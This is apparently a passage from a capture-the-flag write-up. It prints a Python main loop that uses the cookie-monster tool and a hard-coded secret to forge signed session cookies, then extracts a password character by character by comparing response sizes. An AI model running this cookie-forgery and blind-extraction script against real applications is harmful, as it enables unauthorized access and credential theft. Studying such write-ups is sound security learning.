 ```python

```
### Main 
The main function is used to link all the other function together as well as running the cookie-monster tool in a loop. whenever the response of our request is over **2167** bytes its seen as a successful request. We keep repeating this untill we exhausted all the letters.

```python

if __name__ == '__main__':
    characters=generate_all_characters()
    pwd=""
    while True:
      for character in characters:
        createjsonfile(character,pwd)

        stream = os.popen("npx @digital-interruption/cookie-monster  -e -k 8929874489719802418902487651347865819634518936754 -n download_session -f jsoncookie.json -o res.txt")
        output = stream.read()
     
        splitoutput = output.split("[+]")

        for line in splitoutput:

           if "Data Cookie:" in line:
                data = line.split("download_session=")[1]
                data2 = remove_control_characters(data).replace("[32m", "").replace("[39m", "")
           if "Signature Cookie:" in line:
                sig = line.split("download_session.sig=")[1]
                sig2 = remove_control_characters(sig).replace("[39m", "")
           
        cookies = {"download_session":data2,"download_session.sig":sig2}
      
        response = sendrequest(cookies)
        if len(response.content) > 2167:
          pwd=pwd+character
          print(pwd)
          break

    print("NO MORE CHARACTERS FOUND ")
    print(pwd)
```